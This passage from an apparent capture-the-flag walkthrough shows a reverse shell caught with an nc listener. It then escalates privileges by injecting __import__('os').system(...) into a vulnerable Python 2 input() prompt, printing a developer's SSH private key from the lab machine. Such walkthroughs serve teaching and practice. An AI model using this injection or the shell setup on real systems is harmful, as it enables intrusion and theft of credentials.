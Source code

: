 We run a nc listener on which we receive the shell:

```bash
nc -lnvp 443                                                
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.177] 48184
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ ls
developer
$ cd developer
$ ls
dev
user.txt
```

However, we are user www-data, and not developer. So we can’t access the user flag. 

We can find a python script in the dev folder: 

```bash
$ cd /home/developer/dev
$ cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"$
```

The input function is vulnerable to python sandbox escape by invoking __import__!

Inspecting the siteup executable, there is a reference to the above python script, so this binary must be calling apython script. This means that we can just call this binary and exploit python to escape the sandbox to achieve code execution in developer’s rights: 

```bash
$ ./siteisup
__import__('os').system('cat /home/developer/.ssh/id_rsa')
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
```
